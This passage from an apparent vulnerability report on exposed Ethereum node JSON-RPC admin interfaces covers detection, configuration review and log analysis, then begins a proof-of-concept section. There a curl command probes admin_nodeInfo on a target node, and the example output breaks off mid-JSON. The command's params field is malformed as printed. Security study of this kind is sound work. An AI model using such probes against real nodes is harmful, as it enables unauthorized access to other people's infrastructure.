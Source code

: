    - **Horizen/rpc-tests:** A tool designed to test RPC methods against specifications, which could be adapted or used as a basis for detection scripts.

    - **itrocket-am/rpc_scanner:** A generic RPC scanner script that might require customization for specific Ethereum checks.
        
    - General purpose port scanners and HTTP request tools (like `nmap` with NSE scripts, `curl`, Python scripts using `requests` library) can be scripted to perform these checks.
5. **Reviewing Node Configuration (for Node Operators):**
    - Check Geth/Erigon startup commands or configuration files for:
        - Binding address for HTTP/WS RPC (e.g., `-http.addr`, `-ws.addr`). If set to `0.0.0.0` or a public IP, it's a red flag.
        - Whitelisted API namespaces (e.g., `-http.api`, `-ws.api`). If `admin`, `personal`, or `debug` are listed for network-accessible interfaces, it's a high risk.
        - Presence of the `-allow-insecure-unlock` flag.
    - Verify firewall rules to ensure RPC ports are not unintentionally exposed to untrusted networks.
6. **Log Analysis (for Node Operators):**
    - Monitor Geth/Erigon logs for incoming RPC requests. Look for calls to sensitive namespaces (`admin_`, `personal_`, `debug_`) originating from unexpected or public IP addresses. This can indicate active exploitation attempts or successful unauthorized access.

A positive detection occurs if sensitive RPC methods in namespaces like `admin`, `personal`, or `debug` can be successfully invoked remotely without any authentication, especially if the RPC service is listening on a non-localhost interface.

## **X. Proof of Concept (PoC)**

The following Proof of Concept examples demonstrate how an attacker can interact with an unprotected administrative JSON-RPC interface. These examples use `curl`, a common command-line tool for making HTTP requests.

**PoC 1: Information Disclosure using `admin_nodeInfo`**

This PoC attempts to retrieve information about the Ethereum node. While `admin_nodeInfo` itself is often not highly sensitive, a successful response confirms that the `admin` namespace is accessible without authentication.

- Command:
    
    Replace <TARGET_NODE_IP> with the IP address of the vulnerable Ethereum node.
    
    ```Bash
    
    `curl -X POST --data '{"jsonrpc":"2.0","method":"admin_nodeInfo","params":,"id":1}' -H "Content-Type: application/json" http://<TARGET_NODE_IP>:8545`
    ```
    
- Expected Vulnerable Output:
    
    If the admin namespace is exposed, the server will return a JSON object containing details about the node, similar to the example from 6:
    
    ```JSON
    
    {
      "jsonrpc": "2.0",
      "id": 1,
      "result": {
        "enode": "enode://abcdef1234567890...@<IP_ADDRESS>:<P2P_PORT>",
        "id": "abcdef1234567890...",
        "ip": "::",
        "listenAddr": "[::]:30303",
        "name": "Geth/v1.10.25-stable-2725ae26/linux-amd64/go1.18.5",
        "ports": {
          "discovery": 30303,
          "listener": 30303
        },
        "protocols": {
          "eth": {